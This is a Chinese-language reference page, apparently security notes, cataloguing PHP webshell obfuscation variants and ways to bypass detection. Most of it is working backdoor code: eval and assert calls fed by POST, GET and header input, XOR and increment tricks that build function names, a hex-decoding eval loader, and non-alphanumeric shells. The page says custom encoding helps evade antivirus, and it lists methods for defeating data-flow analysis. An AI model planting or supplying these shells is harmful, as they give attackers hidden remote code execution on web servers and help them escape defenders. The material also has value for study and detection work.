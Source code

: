 WebShell
================================

常见变形
--------------------------------
- GLOBALS
    - ``eval($GLOBALS['_POST']['op']);``
- ``$_FILE``
    - ``eval($_FILE['name']);``
- 拆分
    - ``eval(${"_PO"."ST"} ['sz']);``
- 动态函数执行
    - ``$k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);``
    - ``$a=$_GET['a'];$a($_GET['b']);``
- create_function
    - ``$function = create_function('$code',strrev('lave').'('.strrev('TEG_$').'["code"]);');$function();``
- preg_replace
- 变形
    - str_replace(" ", "e v a l")
- 进制转化
    - ``"\x62\x61\163\x65\x36\x34\137\144\145\x63\x6f\144\145"``
- 进制运算
    - ``("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");``
- 自增运算
    - ``$a="a";$a++;``
- 强制类型转换
    - ``$a='';$a.=[]; // Array``
- 利用文件名
    - ``__FILE__``
- 注释
    - ``$a="e"."v"./*-/*-*/"a"./*-*/"l";``
- 反射
    - ``ReflectionFunction``

Bypass
--------------------------------
- 基于少见函数
    - ``mb_eregi_replace('.*',$_GET[1],'','e');``
    - set_error_handler + trigger_error
- 基于污染传播
    - ``putenv($_GET["c"]);eval(getenv('path'));``
    - parse_str
    - parse_url
    - extract
    - token_get_all
    - define
- 基于少见源
    - ``$a = filter_input(INPUT_GET,'c');``
    - ``eval(end(getallheaders()));``
    - get_defined_vars
    - getallheaders
    - get_meta_tags
    - phpinfo
    - 外部变量 / 文件信息
    - 重载 toString

字符串变形函数
--------------------------------
- base64_decode
- base64_encode
- str_replace
- str_rot13
- strtok
- strtolower
- strtoupper
- strtr
- substr
- substr_replace
- trim
- ucfirst
- ucwords

回调函数
--------------------------------
- array_filter
- array_map
- array_reduce
- array_walk
- array_walk
- array_walk_recursive
- call_user_func
- call_user_func_array
- filter_var
- filter_var_array
- preg_replace_callback
- register_tick_function
- registregister_shutdown_function
- uasort
- uksort

加解密函数
--------------------------------
- mcrypt_encrypt
- openssl_encrypt

其他执行方式
--------------------------------
- FFI
- SimpleXML
- SimpleXMLElement

自定义函数
--------------------------------
使用自定义的加解密函数，在一定程度上可以绕过一些防护软件的查杀，下面的代码是一个基于十六进制的执行的简单例子。

.. code:: php

    $string = '';
    $password = 'password';
    if(isset($_POST[$password])){
        $hex = $_POST[$password];
        for($i = 0; $i < strlen($hex) - 1; $i += 2) {
            $string .= chr(hexdec($hex[$i] . $hex[$i + 1]));
        }
    }
    eval($string);

特殊字符Shell
--------------------------------
PHP的字符串可以在进行异或、自增运算的时候，会直接进行运算，故可以使用特殊字符来构成Shell。

.. code:: php

    <?=`{${~"\xa0\xb8\xba\xab"}[~"\xa0"]}`;

.. code:: php

    @$_++;
    $__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
    @${$__}[!$_](${$__}[$_]);


.. code:: php

    $_=[];
    $_=@"$_"; // $_='Array';
    $_=$_['!'=='@']; // $_=$_[0];
    $___=$_; // A
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
    $___.=$__; // S
    $___.=$__; // S
    $__=$_;
    $__++;$__++;$__++;$__++; // E 
    $___.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
    $___.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
    $___.=$__;
    $____='_';
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
    $____.=$__;

    $_=$$____;
    $___(base64_decode($_[_]));

检测对抗
--------------------------------
- 基于混淆影响程序分析
- 基于动态变量影响程序执行
- 抛出异常打断数据流分析
- 基于反射打断数据流分析
- 基于引用传递打断数据流分析
